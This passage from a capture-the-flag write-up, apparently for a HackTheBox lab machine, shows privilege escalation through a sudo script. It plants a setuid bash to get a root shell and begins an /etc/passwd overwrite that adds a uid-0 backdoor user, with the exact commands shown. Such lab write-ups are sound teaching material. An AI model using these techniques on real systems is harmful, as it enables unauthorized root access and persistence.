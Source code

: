     
    
    bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    [+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
    [+] Creating /etc/bind/named.conf.bindmgr file.
    [+] Staging files to /etc/bind/named.bindmgr.
    [+] Checking staged configuration.
    [-] ERROR: The generated configuration is not valid. Please fix following errors: 
        /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
        /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
        /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
        /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
    
    bindmgr@dynstr:/dev/shm$ ls -l /etc/bind/named.bindmgr/
    total 1156
    -rwsrwxrwx 1 root bind 1183448 Jun 13 22:49 bash
    

Running it (with `-p` to avoid dropping privs) gives a root shell:

    
    
    bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
    bash-5.0# 
    

And the flag:

    
    
    bash-5.0# cat /root/root.txt
    5dd46220************************
    

#### –target-directory

The `--target-directory` flag is also a way to get root. My first thought was
to write an SSH key to `/root/.ssh`, but that didn’t work (turns out that
`/root/.ssh` doesn’t exist). Still, I can overwrite `/etc/passwd`. I’ll need
four files.

First I need a modified copy of the `passwd` file with my user included:

    
    
    bindmgr@dynstr:/tmp/tmp.fyyGsVJY8c$ cd $(mktemp -d)
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ cp /etc/passwd .
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ openssl passwd -1 0xdf
    $1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1
    bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 'oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash' >> passwd
    

The oxdf user is now uid and gid 0, which makes it root. And while passwords
are typically hashed and stored in `/etc/shadow`, they are still handled find
from the `passwd` file.

Second, I need a `.version` file:

    
    